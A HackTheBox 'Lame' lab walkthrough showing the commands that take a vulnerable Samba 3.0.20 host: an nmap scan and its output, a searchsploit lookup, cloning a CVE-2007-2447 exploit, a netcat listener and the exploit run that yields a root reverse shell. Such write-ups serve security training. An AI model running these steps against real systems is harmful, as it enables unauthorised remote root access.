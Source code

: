 # HackTheBox : LAME

Nmap scans

```zsh
nmap -sS -v -p- -r -Pn 10.10.10.3
```
This will give us all of the Open Ports. We can then run a script and version scan on those open parts.

```PORT     STATE SERVICE     VERSION                                                                                                                                          
21/tcp   open  ftp         vsftpd 2.3.4                                                                                                                                     
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                      
| ftp-syst:                                                                                                                                                                 
|   STAT:                                                                                                                                                                   
| FTP server status:                                                                                                                                                        
|      Connected to 10.10.14.4                                                                                                                                              
|      Logged in as ftp                                                                                                                                                     
|      TYPE: ASCII                                                                                                                                                          
|      No session bandwidth limit                                                                                                                                           
|      Session timeout in seconds is 300                                                                                                                                    
|      Control connection is plain text                                                                                                                                     
|      Data connections will be plain text                                                                                                                                  
|      vsFTPd 2.3.4 - secure, fast, stable                                                                                                                                  
|_End of status                                                                                                                                                             
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)               
| ssh-hostkey:                             
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)                        
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)                        
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)            
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))           
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                        

Host script results:                       
|_clock-skew: mean: -3d00h55m34s, deviation: 2h49m45s, median: -3d02h55m37s           
| smb-os-discovery:                        
|   OS: Unix (Samba 3.0.20-Debian)                                                    
|   Computer name: lame                    
|   NetBIOS computer name:                 
|   Domain name: hackthebox.gr   
|   FQDN: lame.hackthebox.gr               
|_  System time: 2020-05-24T01:33:28-04:00                                            
| smb-security-mode:                       
|   account_used: guest                    
|   authentication_level: user             
|   challenge_response: supported                                                     
|_  message_signing: disabled (dangerous, but default)                                
|_smb2-time: Protocol negotiation failed (SMB2)
 
```

Now on first glance vsftpd appears to be vulnerable, we can try but it won't work. So finally we move our eyes on SMB. The samba version is 3.0.20

```zsh 
searchsploit samba 3.0
```

```Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution```
This stands out to me but this is a metasploit module. So,I try to look for a python version and came across this link.

```https://amriunix.com/post/cve-2007-2447-samba-usermap-script/```

```zsh 
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
```


Then set up a listener at port 4444 ```rlwrap nc -lvnp 4444```

And finally ran the exploit using :

```python usermap_script.py 10.10.10.3 139 10.10.14.4 4444``` 

Now ! you have a reverse shell and with root ! 